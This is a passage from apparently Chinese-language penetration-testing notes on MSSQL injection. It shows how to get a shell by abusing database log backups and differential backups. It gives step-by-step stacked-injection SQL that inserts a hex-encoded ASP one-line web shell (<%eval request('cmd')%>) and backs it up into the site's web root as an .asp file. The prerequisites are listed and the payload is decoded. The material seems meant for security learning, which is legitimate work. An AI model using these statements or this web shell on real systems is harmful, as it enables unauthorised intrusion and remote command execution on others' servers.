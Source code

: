 - 每周一次完整备份
- 每天一次差异备份
- 每小时一次事务日志备份

**利用前提**：

- 目标机器存在数据库备份文件 ，也就是如果我们利用 test 数据库的话，则需要该test数据库存在数据库备份文件，而且恢复模式得是 完整模式
- 知道网站的绝对路径
- 该注入支持堆叠注入
```sql
alter database 数据库名 set RECOVERY FULL;   #修改数据库恢复模式为 完整模式
create table cmd (a image);        #创建一张表cmd，只有一个列 a，类型为image
backup log 数据库名 to disk= 'C:\Inetpub\wwwroot\sqlilabs\1.asp' with init;   #备份表到指定路径
insert into cmd (a) values(0x3c256576616c20726571756573742822636d642229253e);  #插入一句话到cmd表里
backup log 数据库名 to disk='C:\Inetpub\wwwroot\sqlilabs\2.asp';   #把操作日志备份到指定文件
drop table cmd;    #删除cmd表
```
第四行的 0x3c256576616c20726571756573742822636d642229253e 是一句话木马 的16进制表示<%eval request("cmd")%>
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_N89zsXha.png)
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_37_9c8nlM1I.png)
执行完成之后会在目标网站根目录下生成1.asp和2.asp文件，其中1.asp 保存数据库，2.asp就是我们需要连接的木马文件
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_38_mvWKtLs0.png)
### DB_owner权限差异备份Getshell
注：差异备份有概率会把网站搞崩，所以不建议使用差异备份
**利用前提**：

- 知道网站的绝对路径 
- 该注入支持堆叠注入

注：以下语句一条一条执行
```sql
create table [dbo].[test] ([cmd] [image])
insert into [test](cmd) values(0x3c256576616c20726571756573742822636d642229253e)
backup database test to disk = 'C:\Inetpub\wwwroot\1.asp'
Drop table [test]
```
第2行的 0x3c256576616c20726571756573742822636d642229253e 是一句话木马 的16进制表示<%eval request("cmd")%>
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_38_HltLI16Y.png)

